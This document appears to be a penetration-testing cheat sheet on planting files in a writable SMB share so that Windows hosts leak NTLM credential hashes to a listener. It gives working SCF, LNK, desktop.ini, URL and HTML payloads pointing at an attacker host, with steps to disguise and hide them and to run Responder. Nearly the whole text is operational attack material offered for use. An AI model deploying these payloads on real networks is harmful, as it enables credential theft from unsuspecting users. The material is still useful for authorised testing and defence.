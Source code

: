 # Automatic on folder/share visit I: SCF Files
```
[Shell]
Command=2
IconFile=\\<ATTACKER_IP>\DesktopSettings.config
[Taskbar]
Command=ToggleDesktop
```
1. Put the contents into a non-suspicious file name like `@DesktopSettings.scf`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

# Automatic on folder/share visit II: LNK Files
```powershell
$Output_For_Lnk = "$pwd\Database.lnk"
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut($Output_For_Lnk)
$lnk.TargetPath = "\\<ATTACKER_IP>\@DB"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Database"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
1. Run the PowerShell script, it will save the `.lnk` file in the current working directory
2. Place the file in the writable SMB share (won't work if hidden)
3. Fire up responder `responder -I eth0`

# Automatic on folder/share visit III: Creating a system folder and placing `desktop.ini` inside
```
[.ShellClassInfo]
IconResource=\\<ATTACKER_IP>\settings
```
1. save the file with the above contents inside a `desktop.ini` file
2. connect to the writable SMB share using `smbclient`
3. create a folder and give it a non-suspicious name using `mkdir`
4. set the folder attribute to be a system folder using `setmode <FOLDER> +s`
5. change int the new folder
6. upload the `desktop.ini` file `put <INI_FILE>`
7. make it a system file using `setmode <INI_FILE> +s`
8. and make it hidden using `setmode <INI_FILE> +h`
9. *overall,* it should like this:
```
smb: \> mkdir <FOLDER>
smb: \> setmode <FOLDER> +s
smb: \> cd <FOLDER>
smb: \> put <INI_FILE>
smb: \> setmode <INI_FILE> +s
smb: \> setmode <INI_FILE> +h
```
10. fire up responder `responder -I eth0`

# Works when *Selected*: URL files
```
[InternetShortcut]
URL=file://<ATTACKER_IP>/@IEsettings
```
1. Put the contents into a non-suspicious file name like `IESettings.url`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

# Must be opened to work: HTML files (tested on IE & Chrome)
```
<img src="\\\\<ATTACKER_IP>\\img">
```
1. Put the contents into a non-suspicious file name like `bookmarks.html`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

### Note
- you can hide any file when in an `smbclient` prompt using `setmode <FILE_NAM> +h`
- you can unhide any file when in an `smbclient` prompt using `setmode <FILE_NAM> -h`